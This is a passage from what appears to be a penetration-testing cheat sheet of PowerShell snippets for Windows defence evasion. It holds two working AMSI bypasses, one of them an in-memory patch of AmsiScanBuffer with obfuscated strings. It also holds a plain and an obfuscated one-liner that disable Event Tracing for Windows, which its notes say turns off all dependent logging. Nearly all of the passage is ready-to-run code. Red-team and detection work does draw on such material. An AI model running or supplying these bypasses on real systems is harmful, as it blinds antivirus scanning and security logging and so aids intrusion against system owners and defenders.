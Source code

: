 ```
$v=[Ref].Assembly.GetType('System.Management.Automation.Am' + 'siUtils');
$v."Get`Fie`ld"('ams' + 'iInitFailed','NonPublic,Static')."Set`Val`ue"($null,$true);
```

#### AMSI bypass string 2 obfuscated
```
$MethodDefinition = @"
[DllImport(`"kernel32`",  EntryPoint="GetProcAddress")]
public static extern IntPtr GetProc(IntPtr hModule, string procName);

[DllImport(`"kernel32`")]
public static extern IntPtr GetModuleHandle(string lpModuleName);

[DllImport(`"kernel32`",EntryPoint="VirtualProtect" )]
public static extern bool Virtual(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
"@;
$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kern' -NameSpace 'W' -PassThru;
$ABSD = 'Ams'+'iS'+'canBuffer';
$handle = [W.Kern]::GetModuleHandle('ams'+'i.dll');
[IntPtr]$BAddress = [W.Kern]::GetProc($handle, $ABSD);
[UInt32]$Size = 0x5;
[UInt32]$PFlag = 0x40;
[UInt32]$OFlag = 0;
[W.Kern]::Virtual($BAddress, $Size, $PFlag, [Ref]$OFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);
[system.runtime.interopservices.marshal]::copy($buf, 0, $BAddress, 6);
```

## ETW
- Event Tracing for Windows
- Very effective way of hunting .NET
- Reflectivly modify the PowerShell process to prevent events being published. ETW feeds ALL of the other logs so this disabled everything!
- Also bypasses scriptblock logging

```
[Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static'); $EventProvider = New-Object System.Diagnostics.Eventing.EventProvider -ArgumentList @([Guid]::NewGuid()); $EtwProvider.SetValue($null, $EventProvider);
```

#### Obfusacted
```
[Reflection.Assembly]::"l`o`AdwIThPa`Rti`AlnamE"(('S'+'ystem'+'.C'+'ore'))."g`E`TTYPE"(('Sys'+'tem.Di'+'agno'+'stics.Event'+'i'+'ng.EventProv'+'i'+'der'))."gET`FI`eLd"(('m'+'_'+'enabled'),('NonP'+'ubl'+'ic'+',Instance'))."seTVa`l`Ue"([Ref]."a`sSem`BlY"."gE`T`TyPE"(('Sys'+'tem'+'.Mana'+'ge'+'ment.Aut'+'o'+'mation.Tracing.'+'PSEtwLo'+'g'+'Pro'+'vi'+'der'))."gEtFIe`Ld"(('e'+'tw'+'Provid'+'er'),('N'+'o'+'nPu'+'b'+'lic,Static'))."gE`Tva`lUe"($null),0)
```

## Constrained Language Mode
#### Check the language mode
```
$ExecutionContext.SessionState.LanguageMode
```
